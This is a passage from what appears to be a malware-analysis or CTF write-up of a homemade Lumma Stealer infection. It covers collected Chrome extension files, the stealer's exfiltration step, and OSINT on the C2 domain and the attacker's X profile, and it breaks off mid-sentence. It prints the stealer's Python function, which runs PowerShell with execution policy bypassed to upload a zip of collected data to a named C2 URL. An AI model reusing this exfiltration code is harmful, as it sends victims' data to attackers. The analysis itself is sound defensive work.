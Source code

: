 I did some research on what could potentially be collected by running this script, and most of the retrieved files appear to be related to Chrome extensions. Files like `manifest.json` contain details about the extension, including permissions and background scripts. `computed_hashes.json` stores hashes of extension files to verify their integrity, while `verified_contents.json` carries verification data for Chrome’s security checks. Additionally, `managed_storage.json` may contain data related to settings stored by extensions, which could include synced preferences or security settings.

The attacker may be looking for vulnerabilities in extensions that could be exploited. While I couldn't map this behavior to a specific technique, it should fall under [Credential Access](https://attack.mitre.org/tactics/TA0006/).

The collected files were stored in a single zip file named `Micah.zip` in the `TEMP` folder. Although we can't confirm the exact timestamp of its creation, it should be around the time the process was executed.
## Exfiltration

We have this function:
```
def exfiltrate():
    powershell_command = f'\n    $filePath = "{ZIP_PATH}";\n    $url = "{C2_SERVER}";\n    $wc = New-Object System.Net.WebClient;\n    $wc.UploadFile($url, $filePath);\n    '
    time.sleep(3)
    subprocess.run(['powershell', '-ExecutionPolicy', 'Bypass', '-Command', powershell_command], shell=True)
    subprocess.run(['powershell', "echo Oh, Dutch... He's a rat"], check=True)
```

So what does this code do is uploading the zip file to the C2 server at `http://callosallsaospz.shop/upload`. Going through the logs we get this:

![](/assets/images/posts/2025-02-21-Homemade_Lumma Stealer/16.png)

So the exfiltration was done at `2025-02-17T13:50:19.578Z`
## OSINT

### callosallsaospz.shop
We had this domain ``http://callosallsaospz.shop/upload`` that in exfiltration phase the zip file was sent to it. Searching for threat intel related to that domain we get this from `virustotal`:

![](/assets/images/posts/2025-02-21-Homemade_Lumma Stealer/17.png)

And from `x.com` I found this tweet:
![](/assets/images/posts/2025-02-21-Homemade_Lumma Stealer/18.png)
So indeed this is a LummaC2 domain and our victim got his data stolen to this domain.

### @Za_Real_Arthur

From the downloaded zip `edhauf.zip` we extracted a note called `don't read me please, I will hack you if u open this text.txt` and it mentioned that the attacker name is `Aruthor Morgen` and provided its username on `x.com` [@Za_Real_Arthur](https://x.com/Za_Real_Arthur). Going through his profile has has a couple of tweets about the Juventus VS PSV match which is the same match used in the phishing. Also there is this tweet:
